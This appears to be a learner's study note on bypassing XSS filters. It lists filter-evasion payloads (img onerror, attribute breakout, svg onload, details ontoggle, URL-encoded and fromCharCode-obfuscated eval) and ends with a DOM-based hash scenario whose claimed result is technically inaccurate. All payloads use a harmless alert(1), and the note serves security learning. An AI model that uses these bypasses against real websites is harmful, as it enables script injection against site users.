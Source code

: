 # Filter Bypasses & Payload Tweaks
> Objective: Learn how to bypass basic XSS filters 
using smart payload tricks and quote-breaking techniques.
-----

## What filters usually block
	- <script> tags
	- alert, eval, or dangerous JS functions
	- Quotes (' and ")
	- onerror, onload, javascript:
	- Angle brackets (<, >) and encoded versions

## Bypass Techniques
1.Image Error Trigger
`<img src=x onerror=alert(1)>`
- Fails to load = triggers onerror

2. Break out of attributes
If app outputs this:

`<img src="USER_INPUT.jpg">`

You inject:
`" onerror="alert(1)//`

Result:

`<img src="x" onerror="alert(1)//.jpg">`
JS executes before .jpg is parsed.

3. Alternative Tags

`<svg/onload=alert(1)>`
`<details open ontoggle=alert(1)>`

Browsers allow JS in weird tags.

4. Encoded Payloads

`%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E`

Great for URL injection.

⸻

🔐 Obfuscated JavaScript

Use ASCII to bypass alert filters:

`<script>
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
</script>`

This runs alert(1) without writing alert(1)

Use https://string.fromcharcode.com to generate these.

⸻

## Real Scenario Practice

App sets:

img.src = location.hash.substring(1) + ".jpg";

You inject in URL:

`#x" onerror="alert(1)//`

Result:

`<img src="x" onerror="alert(1)//.jpg">`

✅ Alert pops before .jpg loads.

⸻

🧠 DOM Refresher (Important)

DOM is not the page or console.
It’s the live JavaScript representation of the page.
JS sees and manipulates the DOM.

You modify the DOM through:
	•	Browser console
	•	JavaScript code
	•	Payloads injected into the page

⸻